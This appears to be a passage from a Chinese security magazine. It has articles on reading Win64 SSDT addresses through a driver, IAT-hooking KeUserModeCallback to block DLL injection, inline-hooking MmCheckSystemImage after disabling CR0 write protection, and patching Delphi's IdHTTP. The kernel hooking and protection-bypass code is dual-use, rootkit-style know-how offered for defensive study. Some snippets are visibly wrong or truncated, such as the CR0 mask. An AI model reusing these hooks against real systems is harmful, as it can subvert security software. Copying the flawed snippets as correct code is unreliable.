char func_end[] = "ZwYieldExecution";
...
while(strcmp(ntdlltxt, func_end) != 0) {
    DWORD fn_index = GetSSDTFunctionIndex(ntdlltxt);
    if(fn_index < 1000) {
        IoControl(hSSDTDrv, CTL_CODE_GEN(0x802), &fn_index, 4, &ssdt_func_addr, 8);
        ntdlltxt[0] = 'N'; ntdlltxt[1] = 't';
        printf("0x%llx\t%s\n", ssdt_func_addr, ntdlltxt);
    } else {
        fn_index = 0x57; // WIN7 X64 下 NtQuerySystemTime 的硬编码
        IoControl(hSSDTDrv, CTL_CODE_GEN(0x802), &fn_index, 4, &ssdt_func_addr, 8);
        ntdlltxt[0] = 'N'; ntdlltxt[1] = 't';
        printf("0x%llx\t%s\n", ssdt_func_addr, ntdlltxt);
    }
    ntdlltxt = ntdlltxt + strlen(ntdlltxt) + 1;
    PauseCnt++;
    ssdt_fun_cnt++;
    if(PauseCnt == 100) {
        printf("\nPress [ENTER] to continue...\n");
        getchar();
        PauseCnt = 0;
    }
}
// 显示完最后一个函数
DWORD fn_index = GetSSDTFunctionIndex(ntdlltxt);
IoControl(hSSDTDrv, CTL_CODE_GEN(0x802), &fn_index, 4, &ssdt_func_addr, 8);
ntdlltxt[0] = 'N'; ntdlltxt[1] = 't';
printf("0x%llx\t%s\n", ssdt_func_addr, ntdlltxt);
```

```c
ssdt_fun_cnt++;
// 显示 ssdt 表上的函数数目
printf("\nTotal of SSDT function: %ld", ssdt_fun_cnt);
DeleteFileA("c:\\ntdll.txt");
```

其中，IoControl 函数用于控制驱动通信，是一个简化版的 DeviceIoControl。和此函数相关的函数还有 CTL_CODE_GEN。实现代码如下：

```c
BOOL IoControl(HANDLE hDrvHandle, DWORD dwIoControlCode,
               PVOID lpInBuffer, DWORD nInBufferSize,
               PVOID lpOutBuffer, DWORD nOutBufferSize)
{
    DWORD lDrvRetSize;
    return DeviceIoControl(hDrvHandle, dwIoControlCode,
                           lpInBuffer, nInBufferSize,
                           lpOutBuffer, nOutBufferSize,
                           &lDrvRetSize, 0);
}

DWORD CTL_CODE_GEN(DWORD lngFunction)
{
    return (FILE_DEVICE_UNKNOWN * 65536)
         | (FILE_ANY_ACCESS * 16384)
         | (lngFunction * 4)
         | METHOD_BUFFERED;
}
```

0x802 的作用就是传入 index，传出函数地址。由于上期已经讲过如何在驱动里由函数 index 获得函数地址，所以代码就不贴出来了以省版面。如何在 Win64 上加载驱动，也是老生常谈的事情了，本文也不再赘述。本程序在 Win7 X64 以及 Win2008 R2 下测试通过（所有地址都可以通过 Windbg 验证是否正确），运行效果截图如图 4 所示。


图 4

本文到此结束，说几句话总结全文。

- 本文获取的 SSDT 地址是实际地址，如果出现了 SSDT HOOK，就会得到 FAKE 函数的地址。要获得 SSDT 函数的原始地址，必须解析 PE 文件。
- 从小实验可以看出来，针对 NTDLL.DLL 的 Ring 3 Inline Hook 完全没有意义。我以前以为防止 DLL 重载就能防止别人 Anti Ring 3 Inline Hook，没注意到 Win64 下所有 Native API 的实现如此简单，而且非常有规律，只要自己“山寨”一次，就能彻底绕过对 NTDLL.DLL 的调用；或者采用硬编码的方式也可以清除对 NTDLL.DLL 的 Ring 3 Inline Hook。所以 Ring 0 Inline Hook 才是王道。我已经基本研究出了 Win64 上可行的 Ring 0 Inline Hook 方法，具体实现下期放出，敬请期待。

（编辑提醒：本文涉及的代码可以到黑防官方网站下载）

前置知识：驱动

关键词：钩子，QQ 电脑管家，财产


# 挂钩 KeUserModeCallback 函数来实现自己的“财产保护”

图/文  liuke_blue

QQ 电脑管家 5.0 是腾讯最新推出的一款安全工具，几乎跟 360 安全卫士一样，因为腾讯最擅长的就是抄袭模仿别人：别人出三国杀，它就出英雄杀；别人出暴风影音，它就出 QQ 影音；360 出安全卫士，它就出 QQ 电脑管家等，如图 1 所示。

这就是为什么它能屡次抄袭模仿成功。这些是题外话，言归正传，QQ 管家 5.0 里面有个功能叫“财产保护”。Windows 2000 以后的操作系统，每个进程都有 2G 的私有空间，这个进程空间的资源只能被所属进程访问，其他进程无权访问。而病毒木马想要盗取账号、密码以及其他一些重要信息，就必须访问其他进程的私有空间资源。所以病毒木马一般通过 DLL 注入或者全局钩子等来访问这些进程的私有空间。因此当不明的 DLL 要注入 QQ2011（正在被 QQ 电脑管家“财产保护”的一款软件）时，就会立即被监控拦截，如图 2 所示。


图 1


图 2

几乎 360 安全卫士有的功能它也同样具有，看来自腾讯是绝不会让 360 在安全领域做大，最后威胁到它的。因此，它要跟 360 抢“地盘”（也就是用户）。但是你不得不承认腾讯虽然抄袭别人，但是它更注重在自己产品加入自己细腻、人性化的因素，因此它推出的“抄袭”作品比原有的软件产品操作更简洁、使用更舒适。

下面我就给大家具体分析“财产保护”实现的原理……

这个跟 360 保险箱的功能是一样的，并且它还有对网页操作、支付宝使用等的安全过滤，腾讯的产品总是让人看起来很有噱头。下面我就给大家介绍一下它拦截 DLL 注入的实现原理。

通过挂钩 KeUserModeCallback 这个未公开的函数，可以实现对 Ke_LoadLibrary、WH_KEYBOARD_LL 等进行拦截。这个函数也可以用来在 Ring0 下调用 Ring3 代码，如果需要更进一步了解，可以去黑月教主的百度 blog 上看看。下面我们来实现拦截 DLL 注入的功能，要解决两个问题。

- 如何挂钩 KeUserModeCallback 函数？有两种方式：IAT HOOK（QQ 电脑管家）、Inline HOOK（360 保险箱）。
- 如何拦截 DLL 注入？这个功能在 KeUserModeCallback 挂钩函数里实现。

实现的代码主要来源于对 QQ 电脑管家驱动文件 TCSafeBox.sys 的逆向分析，所以我尽量试着去还原 TCSafeBox.sys 的代码，核心代码如下：

```c
ULONG StartHook(IN PVOID fake_funcaddrss, OUT PULONG Original_funcaddrss)
{
    ULONG win32k_base;
    ULONG result;
    if (fake_funcaddrss && Original_funcaddrss)
    {
        win32k_base = GetModuleBase("win32k.sys");
        if (win32k_base > 0)
            result = IATHook((PVOID)win32k_base, "ntoskrnl.exe", "KeUserModeCallback", fake_funcaddrss, Original_funcaddrss);
    }
    else
        result = 0;
    return result;
}

ULONG GetModuleBase(IN PCHAR ModuleName)
{
    ULONG result;
    ULONG dwNeedSize = 0;
    NTSTATUS status;
    PMODULES pModules;
    int i;
    char imagename[255] = {0};
    ZwQuerySystemInformation(SystemModuleInformation, NULL, 0, &dwNeedSize);
    pModules = ExAllocatePoolWithTag(NonPagedPool, dwNeedSize, 0);
    if (pModules)
    {
        memset(pModules, 0, dwNeedSize);
        status = ZwQuerySystemInformation(SystemModuleInformation, pModules, dwNeedSize, NULL);
        if (NT_SUCCESS(status))
        {
            i = 0;
            ...
        }
    }
}
```

```c
while (i < pModules->dwNumberOfModules)
{
    strcpy(imagename, pModules->smi[i].ImageName + pModules->smi[i].ModuleNameOffset);
    if (!strncmp(imagename, ModuleName, strlen(ModuleName)))
    {
        result = (ULONG)pModules->smi[i].Base;
        break;
    }
    i++;
}
ExFreePoolWithTag(pModules, 0);
return result;

ULONG IATHook(IN PVOID ModuleBase, IN PCHAR ImportName, IN PCHAR ApiName,
              IN ULONG fakeFunctionAddr, OUT PULONG originalFuncAddr)
{
    ULONG result;
    ULONG size;
    PIMAGE_IMPORT_DESCRIPTOR pImportModuleDirectory;
    DWORD dwRVAModuleName;
    PCHAR ModuleName;
    CHAR RvAModuleNameIsZero;
    ULONG *OriginalFirstThunk;
    ULONG *FirstThunk;
    int i;
    PIMAGE_IMPORT_BY_NAME Imageimportbyname;

    result = 0;
    if (ModuleBase && ImportName && ApiName && fakeFunctionAddr &&
        originalFuncAddr && !KeGetCurrentIrql())
    {
        __try
        {
            size = 0;
            pImportModuleDirectory =
                (PIMAGE_IMPORT_DESCRIPTOR)RtlImageDirectoryEntryToData(
                    ModuleBase, TRUE, IMAGE_DIRECTORY_ENTRY_IMPORT, &size);
            if (pImportModuleDirectory)
            {
                while (pImportModuleDirectory && pImportModuleDirectory->Name)
                {
                    dwRVAModuleName = pImportModuleDirectory->Name;   // 模块的 DLL 名称
                    RvAModuleNameIsZero = ((CHAR *)ModuleBase + dwRVAModuleName) == 0;
                    ModuleName = (CHAR *)ModuleBase + dwRVAModuleName;

                    // 先找到模块，再在模块里查找函数
                    if (!RvAModuleNameIsZero && !_stricmp(ModuleName, ImportName, sizeof(ImportName)))
                    {
                        // 得到输入表结构里指向 INT 和 IAT 的 VA
                        ...
                    }
                }
            }
        }
        __except(...)
        {
        }
    }
    return result;
}
```

## 代码片段

```c
OriginalFirstThunk = (ULONG *)((CHAR *)ModuleBase + pImportModuleDirectory->OriginalFirstThunk);
FirstThunk = (ULONG *)((CHAR *)ModuleBase + pImportModuleDirectory->FirstThunk);
for (i = 0; FirstThunk[i]; i++) {
    ImageImportByName = OriginalFirstThunk[i];
    if (ImageImportByName < (ULONG)ModuleBase)
        ImageImportByName += (ULONG)ModuleBase;
    if (ImageImportByName) {
        // 以函数名称方式导入
        if (!_strnicmp((PCHAR)&ImageImportByName->Name[0], ApiName, strlen(ApiName))
            && MmIsAddressValid(FirstThunk[i])) {
            DbgPrint("IAT ENTRY=0x%x, IatAddress=0x%x, funcname=[%s]----hookfunc=[%s]\n", ...);
            *originalFuncAddr = (ULONG)FirstThunk[i];
            result = HookFunc(&FirstThunk[i], fakeFunctionAddr);
            goto Exit;
        }
    }
}

__except (EXCEPTION_EXECUTE_HANDLER) {
    result = 0;
}
else
    result = 0;

Exit:
return result;

ULONG HookFunc(IN PVOID ImportFuncVA, IN ULONG fake_func)
{
    PMDL ImportFuncThunkEntry_MDL;
    PVOID ImportFuncMapAddress;
    PVOID ImportFuncThunkEntry; // 导入表函数的 THUNK 地址
    ULONG result;

    BOOL IsMapped;
    IsMapped = 0;
    if (ImportFuncVA && fake_func) {
        ImportFuncThunkEntry = (PVOID)ImportFuncVA;
        ImportFuncThunkEntry_MDL = IoAllocateMdl(ImportFuncThunkEntry, sizeof(ULONG), FALSE, FALSE, NULL);
        if (ImportFuncThunkEntry_MDL) {
            MmProbeAndLockPages(ImportFuncThunkEntry_MDL, KernelMode, IoWriteAccess);
            IsMapped = 1;
            if (ImportFuncThunkEntry_MDL->MdlFlags & (MDL_MAPPED_TO_SYSTEM_VA | MDL_SOURCE_IS_NONPAGED_POOL))
                ImportFuncMapAddress = ImportFuncThunkEntry_MDL->MappedSystemVa;
            else
                ImportFuncMapAddress = MmMapLockedPagesSpecifyCache(ImportFuncThunkEntry_MDL, KernelMode, MmCached, NULL, NULL, NormalPagePriority);

            if (MmIsAddressValid(ImportFuncMapAddress)) {
                InterlockedExchangePointer(ImportFuncMapAddress, fake_func);
                result = 1;
            }
        }
        if (IsMapped)
            MmUnlockPages(ImportFuncThunkEntry_MDL);
    } else
        result = 0;
    return result;
}

NTSTATUS fake_KeUserModeCallback(IN ULONG ApiNumber, IN PVOID InputBuffer, IN ULONG InputLength,
                                 OUT ULONG OutputBuffer, IN PULONG OutputLength)
{
    UNICODE_STRING uniDllPath = {0};
    STRING aniDLLPath = {0};
    CHAR outDllPath[MAX_PATH] = {0};
    ULONG PID;
    CHAR FullPath[MAX_PATH] = {0};

    // 被注入 DLL 的进程全路径
    if (g_IsDLLDefendMon && !KeGetCurrentIrql() &&
        ApiNumber == LOAD_IMAGE_API_NUM &&
        InputLength >= LOAD_IMAGE_APINAME_OFFSET &&
        MmIsAddressValid(InputBuffer) && InputBuffer) {
        PID = (ULONG)PsGetCurrentProcessId();
        uniDllPath.Length = *(WORD *)((CHAR *)InputBuffer + LOAD_IMAGE_APINAMELENGTH_OFFSET);
        uniDllPath.MaximumLength = *(WORD *)((CHAR *)InputBuffer + LOAD_IMAGE_APINAMEMAXLENGTH_OFFSET);
        uniDllPath.Buffer = (PWSTR)((CHAR *)InputBuffer + LOAD_IMAGE_APINAME_OFFSET);
        aniDLLPath.Buffer = (PCHAR)&outDllPath;
    }

    aniDLLPath.Length = 256;
    aniDLLPath.MaximumLength = 256;
    RtlUnicodeStringToAnsiString(&aniDLLPath, &uniDllPath, FALSE);
    GetFullPathFromPID(PID, &FullPath, 256);
    if (VoteModule(FullPath, outDllPath) == 1)
        return STATUS_UNSUCCESSFUL;

    return g_KeUserModeCallback(ApiNumber, InputBuffer, InputLength,
        OutputBuffer, OutputLength);
}

BOOL GetFullPathFromPID(IN ULONG PID, OUT CHAR *FullPath, IN ULONG FullPathLen)
{
    WCHAR ProcessPathW[MAX_PATH * 2] = {0};
    WCHAR ProcessDosPathW[MAX_PATH * 2] = {0};
    BOOL result;
    PWCHAR NamePosW;
    WCHAR singleWchar;
    ULONG ResultSize;
    ULONG BytesInUnicodeString;

    result = 0;
    if (FullPath)
    {
        result = QueryProcessPathW(PID, &ProcessPathW, 0x100);
        if (result)
        {
            result = QueryProcessDosPathW(&ProcessPathW, &ProcessDosPathW, 0x100);
            if (result)
            {
                // 将读取出来的 DOSNAME 的 WCHAR 路径转化为 CHAR 路径
                NamePosW = (PWCHAR)&ProcessDosPathW;
                do {
                    singleWchar = *NamePosW;
                    NamePosW++;
                } while (singleWchar);

                BytesInUnicodeString = 2 * ((ULONG)((char *)NamePosW - (char *)&ProcessDosPathW) >> 1);
                RtlUnicodeToMultiByteN(FullPath, FullPathLen - 1, &ResultSize,
                    &ProcessDosPathW, BytesInUnicodeString);
                result = 1;
            }
        }
    }
    return result;
}

BOOL QueryProcessPathW(IN ULONG PID, OUT wchar_t *outPathW, IN size_t stringwlen)
{
    PEPROCESS eprocess = NULL;
    NTSTATUS status;
    HANDLE handle;
    PVOID pbuff;
    DWORD ReturnLength;
    PUNICODE_STRING puniimageFilename;
    ULONG result;

    result = 0;
    ...

    if (PID && outPathW)
    {
        status = PsLookupProcessByProcessId(PID, &eprocess);
        if (NT_SUCCESS(status))
        {
            status = ObOpenObjectByPointer(eprocess, OBJ_KERNEL_HANDLE, NULL, 0, NULL, KernelMode, &handle);
            if (NT_SUCCESS(status))
            {
                pbuff = ExAllocatePoolWithTag(NonPagedPool, 0x800, 0);
                if (pbuff)
                {
                    memset(pbuff, 0, 0x800u);
                    status = ZwQueryInformationProcess(handle,
                        ProcessImageFileName, pbuff, 0x800, &ReturnLength);
                    if (NT_SUCCESS(status))
                    {
                        puniimageFilename = (PUNICODE_STRING)pbuff;
                        if (puniimageFilename->Length > 0)
                        {
                            wcsncpy(outPathW, puniimageFilename->Buffer, stringwlen);
                            result = 1;
                        }
                    }
                    ExFreePoolWithTag(pbuff, 0);
                }
            }

            if (handle)
                ZwClose(handle);
            if (eprocess)
                ObfDereferenceObject(eprocess);
        }
        else
            result = 0;
        return result;
    }
}

HANDLE MyOpenFile(IN PCWSTR ProcessPathW)
{
    HANDLE FileHandle;
    OBJECT_ATTRIBUTES oa;
    IO_STATUS_BLOCK iosb = {0};
    UNICODE_STRING uniProcessPath = {0};
    NTSTATUS status;
    int result;

    result = 0;
    if (ProcessPathW)
    {
        RtlInitUnicodeString(&uniProcessPath, ProcessPathW);
        InitializeObjectAttributes(&oa, &uniProcessPath,
            OBJ_KERNEL_HANDLE | OBJ_CASE_INSENSITIVE, NULL, NULL);

        status = IoCreateFile(&FileHandle,
            GENERIC_READ,
            &oa,
            &iosb,
            0,
            FILE_ATTRIBUTE_NORMAL,
            FILE_SHARE_READ,
            FILE_OPEN,
            FILE_NON_DIRECTORY_FILE | FILE_SYNCHRONOUS_IO_NONALERT,
            ...,
            IO_NO_PARAMETER_CHECKING);
        if (NT_SUCCESS(status))
            result = FileHandle;
    }
    return result;
}

BOOL QueryProcessDosPathW(IN PWSTR ProcessPathW, OUT PWSTR ProcessDosPathW, IN size_t stringlen)
{
    HANDLE hFile;
    NTSTATUS status;
    PFILE_OBJECT fileobj;
    POBJECT_NAME_INFORMATION ObjectNameInformation;
    size_t dosstrlen;
    int result;

    result = 0;
    hFile = MyOpenFile(ProcessPathW);
    if (hFile)
    {
        status = ObReferenceObjectByHandle(hFile, 0, *IoFileObjectType, KernelMode, &fileobj, NULL);
        if (NT_SUCCESS(status))
        {
            status = IoQueryFileDosDeviceName(fileobj, &ObjectNameInformation);
            if (NT_SUCCESS(status))
            {
                dosstrlen = ObjectNameInformation->Name.Length;
                if (dosstrlen < 2 * stringlen)
                {
                    memcpy(ProcessDosPathW, ObjectNameInformation->Name.Buffer, dosstrlen);
                    result = 1;
                }
            }
        }
    }

    if (fileobj) ObfDereferenceObject(fileobj);
    if (hFile) ZwClose(hFile);
    if (ObjectNameInformation) ExFreePoolWithTag(ObjectNameInformation, 0);
    return result;
}

// 这里只是做简单路径比较...
ULONG VoteModule(IN PCHAR FullProcessPath, IN PCHAR FullDllPath)
{
    ULONG result;
    int i;
    CHAR FDLLPATH[MAX_PATH] = {0};
    result = 1;
    if (_strnicmp(FullProcessPath, g_Protectpath, 256) != 0)
    {
        result = 3;
        return result;
    }

    strncpy(FDLLPATH, FullDllPath, 256);
    _strupr(FDLLPATH);
    for (i = 0; i < 10; i++)
    {
        if (strstr(FDLLPATH, SystemDllPath[i])) // 该可疑模块是正常的系统模块
        {
            result = 2;
            break;
        }
    }
    if (result == 2)
        return result;

    // 如果是可疑模块将注入我们要保护的进程
    DbgPrint("PEVENT Process Info:[ProcessPath=%s,DLLPath=%s\n]", FullProcessPath, FullDllPath);
    return result;
}
```

## 注意事项

- 由于挂钩的是 Win32k.sys 的导入函数 KeUserModeCallback，在 DriverEntry 例程中无法挂钩，因为 DriverEntry 例程在 system 内核线程上下文里，system 进程的 SessionId = none，无法访问 win32k.sys 内存空间。因此在进行 IAT 挂钩 KeUserModeCallback 函数时，使用 IRP_DEVICE_CONTROL 的例程切换到 GUI 线程上下文。

- KeUserModeCallback 函数参数 ApiNumber = LOAD_IMAGE_API_NUM 时表示触发 LoadLibrary DLL 状态，可通过 InputBuffer 参数指针得到 DLL 名称。不同系统下 LOAD_IMAGE_API_NUM 及偏移不同（文中为 XP SP3）。

- 源代码中有 Unicode string 转 PCHAR 的函数。文中说明通过 SetWindowsHookEx 挂全局钩子注入 Explorer.exe，并通过驱动拦截，实验结果为 DLL 已无法注入 explorer.exe，被 TsSafeBox.sys 成功拦截阻止。最后建议可自行建立黑白名单策略。

只不过需要你建立链表而已；还有这只是 QQ 电脑管家的“财产保护”的一部分，QQ 电脑管家对网页、一些支付宝等安全插件进行过滤，这个我将继续逆向分析 QQ 电脑管家；还有就是本人比较懒，应用层与驱动层之间同步通信没写，有兴趣的读者可以继续完善。随文附上自己所写的早期一个不成型的 U 盘防拷贝的源代码，方便黑防迷们的测试，有不足之处请大家不吝批评指正，谢谢大家！

> （编辑提醒：本文涉及的代码可以到黑防官方网站下载）


图 3 禁止拷贝的 UStopCpy32.dll 注入 explorer.exe


图 4 开启所写的“财产保护”阻止禁止拷贝 dll 注入 explorer.exe

## 前置知识：驱动

- 关键词：驱动，防御，挂钩

### 利用 MmCheckSystemImage 拦截驱动加载


恶意程序成功运行之后，大多会设法通过加载驱动来获取操作系统内核的控制权。网上流传的破解版磁盘保护、数据加密的软件，也都必须先通过驱动进入到系统底层后，才能达到修改内核数据、影响安全软件正常运行的目的。因此，主动防御、系统还原等安全类软件都会想方设法阻止恶意驱动的加载。常见的做法是挂钩 SCM 相关的 API，如 OpenSCManager、CreateService 等等。然而恶意软件在获取到了 SeLoadDriverPrivilege，或者注入有这个令牌的系统进程之后，即可以不通过 SCM，直接调用 NtLoadDriver 进行驱动加载。因而稍微谨慎一点的保护方式是进一步修改 SSDT 挂钩 NtLoadDriver 函数。遗憾的是，即使此函数被禁用，恶意软件还是可以通过内核 DLL 等特殊的内核模块的形式绕过此类 Hook，从而达到变相加载驱动的目的。本文所介绍的方法，利用了系统加载内核模块时的校验机制，来达到拦截所有用户层加载驱动方法的目的。即使恶意软件能够利用系统组件的漏洞在内核执行任意 ShellCode，也必须自己实现一个完整的 PE 文件解析器、加载器。考虑到仅仅使用 ShellCode 毕竟无法实现如此复杂的功能，故此类攻击在正常情况下难以实现。

有的读者可能进行过如下尝试：直接对驱动文件进行修改，发现修改后的驱动总是加载失败，只有在利用 PE 编辑器重新计算校验和后，驱动才能正常工作。这是系统加载驱动时的校验机制所造成的。和用户态的 dll 不同，一旦加载在内核中的驱动程序发生错误，整个系统也会随之崩溃，因此为了保证系统的稳定性，Windows 内核在加载驱动时，会对驱动文件中的数据计算校验和，如果这个值与 PE 头部所存储的值不相同，则认为这个驱动文件已经损坏，不能被加载。对于其他类型的内核模块，系统在加载时也要做相同的检查。

MmCheckSystemImage 函数正完成了上述功能。由于并没有文档介绍此函数，本文中将结合开源项目 ReactOS 的相关代码进行分析。方便起见，这里给源码添加了中文注释。

```c
NTSTATUS
NTAPI
MmCheckSystemImage(IN HANDLE ImageHandle,   // 驱动文件的句柄
                   IN BOOLEAN PurgeSection)
{
    NTSTATUS Status;
    HANDLE SectionHandle;
    PVOID ViewBase = NULL;
    SIZE_T ViewSize = 0;
    IO_STATUS_BLOCK IoStatusBlock;
    FILE_STANDARD_INFORMATION FileStandardInfo;
    KAPC_STATE ApcState;
    PIMAGE_NT_HEADERS NtHeaders;
```

```c
OBJECT_ATTRIBUTES ObjectAttributes;
PAGED_CODE();
/* 初始化 ObjectAttributes */
InitializeObjectAttributes(&ObjectAttributes,
                           NULL,
                           OBJ_CASE_INSENSITIVE | OBJ_KERNEL_HANDLE,
                           NULL,
                           NULL);

/* 根据 ImageHandle，创建 SectionObject */
Status = ZwCreateSection(&SectionHandle,
                         SECTION_MAP_EXECUTE,
                         &ObjectAttributes,
                         NULL,
                         PAGE_EXECUTE,
                         SEC_IMAGE,
                         ImageHandle);
if (!NT_SUCCESS(Status)) return Status;

/* 切换到 System 进程的环境，这是为之后把驱动文件映射到 System 进程的内存中做准备 */
KeStackAttachProcess(&PsInitialSystemProcess->Pcb, &ApcState);

/* 把驱动文件映射到内存中 */
Status = ZwMapViewOfSection(SectionHandle,
                            NtCurrentProcess(),
                            &ViewBase,
                            0,
                            0,
                            NULL,
                            &ViewSize,
                            ViewShare,
                            0,
                            PAGE_EXECUTE);
if (!NT_SUCCESS(Status))
{
    /* 映射失败 */
    KeUnstackDetachProcess(&ApcState);
    ZwClose(SectionHandle);
    return Status;
}

/* 获取文件的 FileStandardInformation */
Status = ZwQueryInformationFile(ImageHandle,
                                &IoStatusBlock,
                                &FileStandardInfo,
                                sizeof(FileStandardInfo),
                                FileStandardInformation);
if (NT_SUCCESS(Status))
{
    /* 验证校验和 */
    if (!LdrVerifyMappedImageMatchesChecksum(ViewBase,
                                             ViewSize,
                                             FileStandardInfo.EndOfFile.LowPart))
    {
        /* 失败，校验和不正确 */
        Status = STATUS_IMAGE_CHECKSUM_MISMATCH;
        goto Fail;
    }
}
```

```c
/* 检查驱动文件的 NTHEADER，确保这是一个有效的 PE 文件 */
NtHeaders = RtlImageNtHeader(ViewBase);
if (!NtHeaders)
{
    /* 失败，不是有效的 PE 文件 */
    Status = STATUS_IMAGE_CHECKSUM_MISMATCH;
    goto Fail;
}

/* 确保驱动是为 x86 架构编写的 */
if ((NtHeaders->FileHeader.Machine != IMAGE_FILE_MACHINE_NATIVE) ||
    (NtHeaders->OptionalHeader.Magic != IMAGE_NT_OPTIONAL_HDR_MAGIC))
{
    /* 失败，非 x86 架构 */
    Status = STATUS_INVALID_IMAGE_PROTECT;
    goto Fail;
}

/* 如果当前存在多个 CPU，确保驱动能在多 CPU 环境下运行 */
if (!MmVerifyImageIsOkForMpUse(ViewBase))
{
    /* 失败，驱动不支持在多 CPU 下运行 */
    Status = STATUS_IMAGE_MP_UP_MISMATCH;
}

/* 取消驱动文件与内存间的映射关系，并退出 System 进程的环境 */
Fail:
ZwUnmapViewOfSection(NtCurrentProcess(), ViewBase);
KeUnstackDetachProcess(&ApcState);
ZwClose(SectionHandle);
return Status;
```

可以看到，MmCheckSystemImage 函数共有两个参数，其中第一个参数即为驱动文件的 FileHandle，这无疑为我们验证驱动文件并决定是否放行提供了相当便利的条件。可以选择挂钩此函数，并根据 FileHandle 检查驱动文件是否需要拦截，如果驱动不在白名单之内，返回 STATUS_IMAGE_CHECKSUM_MISMATCH 即可阻止该驱动的加载。

MmCheckSystemImage 函数并未被导出，在调试内核的时候，通过加载对应的符号文件即可找到。在实际应用中，需要用特征码匹配等方式进行获取。

```text
kd> u MmCheckSystemImage
nt!MmCheckSystemImage:
805a58e8 6a74            push 74h
805a58ea 6840a85080      push offset nt!MMTEMPORARY+0x8c (8050a840)
805a58ef e847dbf3ff      call nt!_SEH_prolog (804e343b)
805a58f4 6a18            push 18h
805a58f6 5f              pop edi
805a58f7 897dac          mov dword ptr [ebp-54h],edi
805a58fa 33f6            xor esi,esi
805a58fc 8975b0          mov dword ptr [ebp-50h],esi
```

该函数头部的第二条、第三条指令都含有易变的指针，应将其忽略，最后特征码为：

```text
6a 74 68 ?? ?? ?? ?? e8 ?? ?? ?? ?? 6a 18 5f 89 7d ac
```

`??` 匹配任意的一个字节。MmCheckSystemImage 函数位于 ntoskrnl 当中，为了确定搜索特征码的范围，应当获取 ntoskrnl 的基地址以及大小。本文中所使用的方法是枚举所有内核模块，并找出包含了函数 PsCreateSystemThread 的那一个（此函数始终位于 ntoskrnl 中），具体实现代码如下所示：

```c
pList = ((PLIST_ENTRY)drvobj->DriverSection)->Flink;
do
{
    Ldr = CONTAINING_RECORD(
        pList,
        LDR_DATA_TABLE_ENTRY,
        InLoadOrderLinks);

    if (Ldr->DllBase)
    {
        if ((ULONG)Ldr->DllBase < (ULONG)PsCreateSystemThread)
        {
            if ((ULONG)Ldr->DllBase + (ULONG)Ldr->SizeOfImage > (ULONG)PsCreateSystemThread)
            {
                BaseAddr = (ULONG)Ldr->DllBase;   // ntoskrnl 的基地址
                Size = (ULONG)Ldr->SizeOfImage;   // ntoskrnl 的大小
                break;
            }
        }
    }

    pList = pList->Flink;
} while (pList != ((LIST_ENTRY*)drvobj->DriverSection)->Flink);
```

本例中的特征码比较简单，具体搜索过程在此就不赘述了，感兴趣的读者可参考本文所附的驱动源码。

找到 MmCheckSystemImage 函数后，即可对其进行挂钩处理。在本例中，替换后的 MmCheckSystemImage 函数只是简单地拒绝了所有加载驱动的请求，读者可以在此基础上进行修改，实现白名单等功能。

```c
ULONG __stdcall hooked_CheckSystemImage(HANDLE hFile, int a2)
{
    return 0xC0000221;
    // STATUS_IMAGE_CHECKSUM_MISMATCH
}

VOID wpoff()
{
    __asm
    {
        ...
    }
}
```

```c
cli;
push eax;
mov eax, cr0;
and eax, 0FFFFFFFh;
mov cr0, eax;
pop eax;
...
VOID wpon()
{
    __asm {
        push eax;
        mov eax, cr0;
        or eax, 10000h;
        mov cr0, eax;
        pop eax;
        sti;
    }
}

void hook()
{
    KIRQL oldirql;
    if (hooked) return;
    if (!pfnCheckSystemImage) locate_CheckSystemImage();
    dprintf("pfnCheckSystemImage : %x\n", pfnCheckSystemImage);
    if (!pfnCheckSystemImage) return;
    oldirql = KeRaiseIrqlToDpcLevel();
    wpoff();
    *((PUCHAR)pfnCheckSystemImage)=0xe9;
    *(PULONG)((ULONG)pfnCheckSystemImage+1)
      = (ULONG)hooked_CheckSystemImage - (ULONG)pfnCheckSystemImage - 5;
    wpon();
    KeLowerIrql(oldirql);
    hooked = 1;
    dprintf("hooked\n");
}
```

示例驱动 resi.sys 加载之后，便会阻止之后所有的驱动等内核模块的加载，可以看到如图 1 所示的错误提示。


图 1

后记：截至发稿时，又有一种新的加载驱动的方式流传出来，其原理大致是调用 ZwSetSystemInformation 函数修改 SystemLoadGdiDriverInSystemSpace 信息，最后自己构造 DriverObject 加载驱动。对于这类方法，传统的 NtLoadDriver Hook 显然无法应对，而使用本文所介绍的方法能够拦截。（编辑提醒：本文涉及的代码可以到黑防官方网站下载）

## 前置知识：Delphi

- 关键词：Indy，Delphi，组件

### Indy 组件 IdHTTP 500 错误时获取网页内容


图/文 赵显阳

网上许多朋友在使用 Delphi 中的 IdHTTP 组件时，正常的 HTTP 请求都能返回数据，但是如果服务器出现内部错误，这时就会出现如图 1 所示的消息框。

那么如何修改 Indy 中 idhttp.pas 源码，使在出现错误时不报错，并且在使用 GET、POST 方法时能够获取网页原始代码。下面我以例子的方式，来演示一下。


图 1

首先新建一个 application，在 Form 上放置一个 idhttp1，一个 BitBtn1，按钮的 onclick 事件代码截图如下：

```pascal
procedure TForm1.BitBtn1Click(Sender: TObject);
var
  str: string;
begin
  idhttp1.HandleRedirects := True;
  idhttp1.ReadTimeout := 5000;
  str := idhttp1.Get('http://192.168.244.200/oracle/index.asp?id=2');
  ShowMessage('返回: ' + str);
end;
```

直接运行时会出现 500 错误。我们来看看程序源码，是什么导致了 500 错误。打开 `C:\Program Files\CodeGear\RAD Studio\6.0\source\Indy\Indy10\Protocols\idhttp.pas`，定位到处理 HTTP 响应的函数，如图 2 所示。


图 2

接着看下面的代码：

我简单地分析一下，第 3 行 `Response.ContentStream := LTempResponse`，这行代码把一个空内存流对象赋值给了 HTTP 响应对象，导致 ContentStream 的内容为空。再看下面已经被注释的部分，如图 3 所示。

```pascal
//raise
EIdHTTPProtocolException.CreateError(AResponseCode,
  FHTTP.ResponseText,
  //ReadStringFromStream(LTempResponse, -1,
  ContentTypeStrToEncoding(FHTTP.Response.FContentType)))
;
```

这段代码触发了一个异常，这就是为什么会出现 `HTTP/1.1 internal server error` 消息框的原因。我们把第 3 行注释掉，把 `raise EIdHTTPProtocolException` 这一行也注释掉，然后使用 `dcc32.exe` 对 `idhttp.pas` 进行编译生成 `idhttp.dcu` 文件，执行如下命令：

`dcc32 -Q idhttp.pas -M -Y -Z -$D`

不通过，主要是还需要几个其他的 dcu 文件和 inc 文件。把 `idhttp.pas` 复制到 `C:\Program Files\CodeGear\RAD Studio\6.0\lib\Indy10` 目录下，把 `IdCompilerDefines.inc` 文件也复制到该目录下，再次编译通过了，如图 4 所示。


图 3


图 4

运行我们的程序，返回如图 5 所示。


图 5

## 小结

